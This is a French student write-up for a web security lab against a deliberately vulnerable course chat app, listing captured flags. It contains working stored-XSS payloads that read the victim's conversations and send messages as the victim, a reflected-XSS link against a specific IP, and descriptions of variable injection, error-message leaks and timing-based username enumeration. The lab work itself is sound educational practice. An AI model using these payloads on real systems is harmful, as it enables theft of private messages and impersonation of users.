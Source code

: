 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-24ddc0f5d75046c5622901739e7c5dd533143b0c8e959d652212380cedb1ea36.svg)](https://classroom.github.com/a/Nx5uMN_1)
# 7 Security

Énoncé [ici](https://web-classroom.github.io/labos/labo-7-security.html)

## Partie 1

Fait sur les profils amir.mouti1 et amir.mouti2

### Flag 1

**Flag**: flag1:a9ef96748d4b72a0

**Exploit**: 

On peut exécuter du code chez la cible en envoyant un message de cette forme

```
<img src="x" onerror=" //code à exécuter// ">
```

De cette manière on peut récupérer les conversationId de notre cible avec ce message:

```
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Mouti Amir') {
    let t = Array(...document.querySelectorAll('.conversation')).map(c => c.id).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}">
```

En l'envoyant à Elon Musk, on reçoit conversationc0827d0b544f6703|||conversationcfc613b4326619b8 comme réponse. c0827d0b544f6703 est l'ID de notre conversation avec Elon donc cfc613b4326619b8 est l'ID de la conversation entre Elon et Trump. Avec cet ID, on peut récupérer le contenu de l'URL /conversation/{conversationId} et nous l'envoyer par message:


```
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Mouti Amir') {
    fetch('/conversation/cfc613b4326619b8')
    .then(response => response.text())
    .then(data => {
        document.getElementById('message').innerHTML = data;
        document.getElementById('messageButton').click();
    })}
"/>
```
Avec ce message nous recevons toute la conversation entre Trump et Elon et les deux premiers flags d'un coup:
![](web_flag1.png)

### Flag 2

**Flag**: flag2:461a94bc459e0673

**Exploit**: 

Le flag 2 a été aussi récupéré avec l'exploit du flag 1

### Flag 3

**Flag**: flag3:386bc5beb72461d9

**Exploit**: 

Toujours avec la même méthode pour exécuter du code chez une cible, on peut envoyer un message dans une conversation dont on connait l'ID. On a déjà récupéré l'ID de la conversation Elon/Trump au flag 1, on peut donc forcer Elon à envoyer un message avec:

```
<img src=/ onerror="if (document.querySelector('#header .name').innerText !== 'Mouti Amir') {
        fetch('/conversation/cfc613b4326619b8', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ message: 'gimme the rest of the codes pls' })
        })
    };">
```

Ensuite, on peut récupérer la conversation entre Elon et Trump de la même manière qu'au flag 1:

```
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Mouti Amir') {
    fetch('/conversation/cfc613b4326619b8')
    .then(response => response.text())
    .then(data => {
        document.getElementById('message').innerHTML = data;
        document.getElementById('messageButton').click();
    })}
"/>
```

![](web_flag3.png)

## Partie 2

### Flag 4

**Flag**: flag4:b2d5951dfa86223c

**Exploit**: 

L'exploit ici est une injection de variable. On voit que le code qui est sensé détecter et déconnecter les utilisateurs inactifs ne déclare pas la variable nextTimeout. En changeant notre nom en "nextTimeout", la variable existe maintenant chez Elon et il se fait automatiquement déconnecter car la variable a une valeur qui est interprétée par le code comme un temps d'inactivité trop long.

### Flag 5

**Flag**: flag5:d0b0076bcc81f4ea

**Exploit**: 

En envoyant un message vide à Elon, on remarque que le message d'erreur nous donne trop d'information.

![](flag5_error.png)

On y trouve notemment les conversationIds d'Elon. b0e3706982f3fb3e est l'ID de notre conversation, donc l'autre est celui de la conversation entre Elon et quelqu'un d'autre. En allant à l'URL /conversation/54e4b34a94780356 on reçoit un message d'erreur "Operation not permitted" mais aussi toute la conversation à laquelle on ne devrait pas avoir accès:

![](flag5_conv.png)

Plus bas dans la conversation, on retrouve bien le 5ème flag dans le message "might need a password flag5:d0b0076bcc81f4ea".

### Flag 6

Personnes inscrites à ChatsApp:
- `michelle.obama` oui
- `barack.obama` non
- `hillary.clinton` oui
- `george.w.bush` oui
- `jane.doe` non
- `sam.altman` oui
- `mira.murati` non
- `olivier.lemer` non

**Exploit**: 

Quand on essaie de se connecter, on remarque que si le username est faux ou si le mot de passe est vide, la réponse du site est presque instantanée alors que si le username existe et le mot de passe n'est pas vide, la réponse prend quelques secondes à arriver. On peut donc essayer tous les usernames fournits un à un et si on reçoit une erreur rapidement on sait que le compte n'existe pas.

## Exploit Supplémentaire

Lien vers ChatsApp qui, lorsque l'on clique dessus, exécute `alert(document.cookie)` dans le browser, que l'on soit actuellement connecté ou non à ChatsApp :

http://185.143.102.102:8080/login?error=%3Cscript%3Ealert(document.cookie);%3C/script%3E

## Correction des vulnérabilités
Si vous effectuez d'autres modifications que celles demandées, merci de les lister ici :

TODO